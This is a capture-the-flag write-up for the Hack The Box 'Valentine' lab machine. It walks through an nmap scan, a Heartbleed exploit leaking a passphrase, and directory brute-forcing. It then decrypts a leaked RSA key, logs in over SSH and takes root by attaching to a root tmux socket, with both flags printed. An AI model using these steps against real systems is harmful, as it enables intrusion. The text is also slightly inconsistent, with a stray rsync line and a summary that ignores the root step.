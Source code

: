 
---

## Nmap Enumeration

Initial scan to identify open ports and services:

```bash
nmap -sV -sC valentine.htb
```

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.2.22
```

- Web server is running on both HTTP and HTTPS.
- SSL cert is expired and self-signed.
- SSH version is old and likely vulnerable to known exploits.
- Apache version is also outdated.

---
## Heartbleed Exploit (CVE-2014-0160)

Because OpenSSL is used for HTTPS and the version is vulnerable, we try the Heartbleed exploit:

```bash
searchsploit -m exploits/multiple/remote/32745.py
python2 32745.py valentine.htb
```

Output snippet:

```
...
0140: $text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
```

Base64 decode:

```bash
echo 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' | base64 -d
```

Result:

```
heartbleedbelievethehype
```

We now have the RSA key passphrase.

---

## Feroxbuster Directory Bruteforce

Using `feroxbuster` to enumerate paths on the web server:

```bash
feroxbuster -u http://valentine.htb -w /usr/share/wordlists/seclists/PathBANGER.txt -x php,sh,txt -C 404
```

Relevant hits:

```
/index
/index.php
/dev/
/dev/notes.txt
/dev/hype_key
/decode
/decode.php
/encode
/encode.php
/omg
/omg.jpg
```

---

## Notes Discovery

Visiting `/dev/notes.txt` reveals:

```
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

This implies the encoder/decoder may leak sensitive data. Might not be properly secured yet.

---

## Leaked RSA Key (Hex Encoded)

Visiting `/dev/hype_key` gives a hex blob. Download and convert:

```bash
wget https://valentine.htb/dev/hype_key --no-check-certificate
cat hype_key | xxd -r -p > rsa.enc
```

Result is:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3

-----END RSA PRIVATE KEY-----
```

It’s encrypted — we need the passphrase.

---

## Encoder/Decoder Discovery

- `/encode.php` and `/decode.php` appear functional.
- Based on the notes, encoding/decoding is supposed to be client-side but currently isn’t.
- These endpoints accept POST requests and reflect encoded/decoded content.

---

## Decrypting the Private Key

```bash
openssl rsa -in hype_key -out hype_key_decrypted_unencrypted.key
```

Enter the passphrase when prompted:

```
heartbleedbelievethehype
```

Successful decryption gives a usable private key.

---

## SSH Access

Make the key secure and connect:

```bash
chmod 600 hype_key_decrypted_unencrypted.key
ssh -i hype_key_decrypted_unencrypted.key \
  -o PubkeyAcceptedAlgorithms=+ssh-rsa \
  -o HostkeyAlgorithms=+ssh-rsa \
  hype@valentine.htb
# password: heartbleedbelievethehype
```

We gain shell access as user `hype`.

```
hype@Valentine:~$ cat user.txt
bf7eb8c600515cbb9fef7f2fde9a0773
```

```
ls -l /.devs
srw-rw---- 1 root hype 0 Apr 17 17:12 dev_sess
```
It’s a UNIX domain socket. Let's see what’s using it:
```
ps aux | grep dev_sess
root       1057  0.0  0.1  26416  1672 ?        Ss   17:12   0:01 /usr/bin/tmux -S /.devs/dev_sess
```
It’s a `tmux` session running as root, but the socket is readable by our `hype` user.

```
tmux -S /.devs/dev_sess attach
```

```
root@Valentine:/# whoami
root
cd /root
ls
# curl.sh  root.txt
cat root.txt
# 59485c3f0d079b8911b150465e749403
```
---
## Summary

| Step | Action                                                                         |
| ---- | ------------------------------------------------------------------------------ |
| 1    | Scanned with Nmap and discovered outdated Apache & OpenSSH                     |
| 2    | Enumerated web dirs with Feroxbuster and found notes, key, encode/decode pages |
| 3    | Found `/dev/hype_key` containing hex-encoded encrypted private key             |
| 4    | Exploited Heartbleed to leak memory from HTTPS                                 |
| 5    | Retrieved RSA key passphrase: `heartbleedbelievethehype`                       |
| 6    | Decrypted private key and SSH’d into the machine as user `hype`                |

Next step would be local enumeration and privilege escalation to root.


rsync -aP 192.168.1.18:/Users/<your_user>/path/to/file .